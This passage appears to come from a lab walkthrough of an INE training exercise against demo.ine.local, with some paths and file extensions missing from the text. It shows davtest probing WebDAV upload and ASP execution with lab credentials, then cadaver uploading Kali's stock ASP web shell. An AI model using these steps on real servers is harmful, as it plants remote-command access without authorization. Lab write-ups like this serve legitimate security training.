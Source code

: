 
\section*{Step 3 --- Confirm WebDAV and Test Upload Permissions with davtest}

\begin{whybox}
davtest tells me two critical things: can I upload files, and will the server
execute them? If ASP execution is not possible, there is no point uploading a
shell. I need to know this before wasting time crafting a payload.
\end{whybox}

\begin{termbox}
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav
\end{termbox}

\textbf{What I found:}
\begin{itemize}
  \item File upload via PUT: \textbf{SUCCESS} for multiple extensions
  \item ASP execution: \textbf{SUCCESS} --- the server executes  files
  \item This confirms the full WebDAV RCE attack path is viable
\end{itemize}


\section*{Step 4 --- Upload Web Shell with Cadaver}

Kali includes built-in web shells at . I used the
ASP web shell since the server executes  files.

\begin{termbox}
# Find available shells
ls -al /usr/share/webshells/asp/

# Connect to WebDAV and upload
cadaver http://demo.ine.local/webdav/
# At credentials prompt:
# Username: bob
# Password: password_123321

# Inside cadaver session:
put /usr/share/webshells/asp/webshell.asp
ls    # Confirm upload
exit
\end{termbox}

